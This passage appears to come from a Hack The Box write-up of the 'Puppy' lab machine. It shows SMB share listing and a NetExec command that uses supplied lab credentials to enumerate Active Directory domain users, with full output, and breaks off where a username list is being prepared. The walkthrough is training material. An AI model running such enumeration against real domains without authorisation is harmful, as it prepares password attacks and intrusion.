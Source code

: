 ```
SMB         10.10.11.70     445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share 
                                                                                                 
```

We observed an interesting share `DEV`, but we do **not** have read/write access to it.

Next, we proceeded to enumerate domain users:


```
nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --users
```

```
┌──(kali㉿kali)-[~/HTB-machine/puppy]
└─$ nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --users

SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.10.11.70     445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-            
SMB         10.10.11.70     445    DC               Administrator                 2025-02-19 19:33:28 0       Built-in account for administering the computer/domain                                                                                                          
SMB         10.10.11.70     445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain                                                                                                        
SMB         10.10.11.70     445    DC               krbtgt                        2025-02-19 11:46:15 0       Key Distribution Center Service Account                                                                                                                         
SMB         10.10.11.70     445    DC               levi.james                    2025-02-19 12:10:56 0        
SMB         10.10.11.70     445    DC               ant.edwards                   2025-02-19 12:13:14 0        
SMB         10.10.11.70     445    DC               adam.silver                   2025-05-18 12:04:29 8        
SMB         10.10.11.70     445    DC               jamie.williams                2025-02-19 12:17:26 0        
SMB         10.10.11.70     445    DC               steph.cooper                  2025-02-19 12:21:00 0        
SMB         10.10.11.70     445    DC               steph.cooper_adm              2025-03-08 15:50:40 0        
SMB         10.10.11.70     445    DC               [*] Enumerated 9 local users: PUPPY
```


Create a `username.txt` file to store all the enumerated users:
